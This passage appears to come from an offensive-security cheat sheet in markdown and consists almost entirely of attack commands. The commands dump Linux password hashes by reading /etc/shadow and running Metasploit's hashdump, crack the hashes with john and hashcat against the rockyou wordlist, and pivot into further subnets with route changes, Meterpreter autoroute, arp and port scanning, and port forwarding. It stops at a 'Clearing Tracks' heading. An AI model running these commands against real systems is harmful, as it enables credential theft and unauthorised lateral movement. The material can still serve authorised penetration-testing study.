 #### Linux

```bash
cat /etc/shadow

# Metasploit
use post/linux/gather/hashdump

john --format=sha512crypt linux.hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
john -wordlist /usr/share/wordlists/rockyou.txt crack.hash
john -wordlist /usr/share/wordlists/rockyou.txt -users users.txt test.hash

# Hashcat
hashcat --help | grep 1800
hashcat -a 3 -m 1800 linux.hashes.txt /usr/share/wordlists/rockyou.txt
ashcat -m 1000 -a 0 -o found.txt --remove crack.hash rockyou-10.txt
```

### Pivoting

```bash
# Checking Routes
ip route    # Checking defined routes in linux
route       # Checking defined routes in linux
route print     # Checking defined routes in windows

# Adding Manual Routes
ip route add <subnet> via <gateway or router address>
# for example:
ip route add 192.168.222.0/24 via 10.172.24.1   # Here 10.172.24.1 is the address of the gateway for subnet 192.168.222.0/24

# Meterpreter on Target1
run autoroute -s <TARGET1_SUBNET_NETWORK>
run autoroute -p    # show active route table
run arp_scanner -r <TARGET1_SUBNET_NETWORK>

background
use auxiliary/scanner/portscan/tcp
set RHOSTS <TARGET2_IP>
set PORTS 1-100
run

# MeterpreterPort Forwarding
portfwd add -l <LOCAL_PORT> -p <TARGET_PORT> -r <TARGET_IP>

db_nmap -sS -sV -p <LOCAL_PORT> localhost

```

### Clearing Tracks

